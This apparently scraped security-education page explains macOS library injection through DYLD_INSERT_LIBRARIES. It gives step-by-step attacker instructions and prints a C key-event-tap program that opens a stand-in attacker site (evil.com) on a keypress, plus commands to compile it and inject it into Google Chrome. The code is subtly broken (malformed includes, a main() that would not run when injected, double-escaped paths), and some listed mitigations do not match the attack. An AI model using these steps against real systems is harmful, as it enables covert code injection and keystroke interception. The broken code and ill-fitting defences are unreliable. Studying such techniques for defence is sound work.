 # macOS Library Injection


# 👉 Overview

---

### 👀 What ?

macOS Library Injection is a technique used by malicious programs to inject arbitrary code into the memory space of another process. This technique allows the injected code to be executed within the context of the target process, enabling the attacker to bypass system security measures and gain unauthorized access or control over the process.


### 🧐 Why ?

Understanding macOS Library Injection is crucial because it is a common technique used in cyber-attacks to exploit vulnerabilities in software. It can lead to serious security breaches, allowing attackers to steal sensitive information, manipulate systems, or even gain complete control over a system. Therefore, knowing how this technique works can help in developing appropriate security measures and strategies to prevent such attacks.


### ⛏️ How ?

To take advantage of macOS Library Injection, follow these steps: 1. Identify a target process to inject code into. This could be a running application or system process. 2. Write the code you want to inject. This code will be executed within the context of the target process. 3. Use a technique such as dynamic linking or runtime patching to inject your code into the target process. 4. Once the code is injected, it can be executed within the context of the target process, allowing you to manipulate the process or gain access to its resources.


### ⏳ When ?

The technique of library injection has been in use for many years and is not specific to macOS. However, with the increasing popularity of macOS systems, attackers have started to use this technique more frequently on these systems. Therefore, it's crucial for macOS users to understand this technique to protect their systems effectively.


# ⚙️ Technical Explanations

---

## Overview of MacOS Library Injection

MacOS Library Injection is a sophisticated technique used by attackers to infiltrate and manipulate target systems. By leveraging the dynamic linker/loader, attackers can inject arbitrary code into a running process. This injected code becomes part of the process's normal execution, often remaining undetected and allowing the attacker to execute various malicious activities.

## How MacOS Library Injection Works

### 1. Dynamic Linker/Loader (dyld)

The dynamic linker/loader, dyld, is responsible for loading shared libraries needed by a program at runtime. It resolves symbols and links libraries dynamically, providing the necessary functions and resources for the program to execute.

### 2. Environment Variables

The `DYLD_INSERT_LIBRARIES` environment variable can be used to specify additional dynamic libraries that dyld should load before any other libraries. This feature can be exploited by attackers to inject malicious libraries into legitimate processes.

### 3. Privilege Escalation

Attackers often use library injection in combination with privilege escalation techniques to gain unauthorized access to system resources. This can significantly amplify the potential damage, allowing attackers to steal data, install backdoors, or take control of the system.

## Example of MacOS Library Injection

Here is a detailed example demonstrating how MacOS Library Injection can be performed:

### Step 1: Identify a Target Process

The attacker targets a commonly used application, such as Google Chrome.

### Step 2: Write Malicious Code

The attacker writes malicious code to be injected. This code might perform actions like logging keystrokes or opening a malicious website.

```c
#include <stdio.h
#include <ApplicationServices/ApplicationServices.h

// Callback function for keyboard events
CGEventRef myCGEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
    if ((type != kCGEventKeyDown) && (type != kCGEventKeyUp))
        return event;

    CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

    // Open a malicious website when 'A' is pressed
    if (keyCode == (CGKeyCode)0) {
        system("open <http://www.evil.com");
    }

    return event;
}

int main(void) {
    CFMachPortRef eventTap;
    CGEventMask eventMask;
    CFRunLoopSourceRef runLoopSource;

    // Create an event tap to intercept key presses
    eventMask = ((1 << kCGEventKeyDown) | (1 << kCGEventKeyUp));
    eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, myCGEventCallback, NULL);

    if (!eventTap) {
        exit(1);
    }

    // Create a run loop source and add it to the current run loop
    runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
    CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
    CGEventTapEnable(eventTap, true);
    CFRunLoopRun();

    exit(0);
}

```

### Step 3: Compile the Malicious Library

The attacker compiles the C code into a dynamic library (dylib).

```bash
gcc -dynamiclib -o malicious.dylib malicious.c

```

### Step 4: Set the DYLD_INSERT_LIBRARIES Environment Variable

The attacker sets the `DYLD_INSERT_LIBRARIES` environment variable to point to the compiled malicious library.

```bash
export DYLD_INSERT_LIBRARIES=/path/to/malicious.dylib
/Applications/Google\\ Chrome.app/Contents/MacOS/Google\\ Chrome

```

### Step 5: Execution of Malicious Code

When Google Chrome is launched, dyld loads the malicious library first. The injected code runs with the same privileges as the Chrome process, performing actions such as opening a malicious website whenever the 'A' key is pressed.

## Preventive Measures

### 1. Secure Coding Practices

- **Input Validation:** Ensure all user inputs are properly validated to prevent code injection.
- **Use Secure Functions:** Prefer secure functions that limit the potential for exploitation.

### 2. System Configuration

- **Environment Variable Filtering:** Implement filtering to prevent the setting of dangerous environment variables.
- **Restrict Permissions:** Limit the ability of non-privileged users to set environment variables or modify critical system files.

### 3. Monitoring and Auditing

- **Regular Audits:** Conduct regular system audits to detect unauthorized changes to environment variables or system configurations.
- **Activity Monitoring:** Use security tools to monitor system activity and detect suspicious behavior indicative of library injection.

### 4. Regular Updates and Patches

- **Keep Software Updated:** Regularly update the operating system and applications to include security patches.
- **Apply Security Patches:** Promptly apply patches to mitigate known vulnerabilities that attackers might exploit.

### 5. User Awareness

- **Educate Users:** Train users to recognize and avoid potential security threats.
- **Software Verification:** Encourage the use of software from trusted sources and verify the authenticity of applications before installation.

## Conclusion

MacOS Library Injection is a potent technique for attackers to infiltrate systems and execute malicious code. By understanding how this technique works and implementing robust security practices, it is possible to mitigate the risks associated with such attacks. Regular system updates, monitoring, and user education are essential components of a comprehensive security strategy to protect against library injection and other sophisticated cyber threats.

# 🖇️ Références

---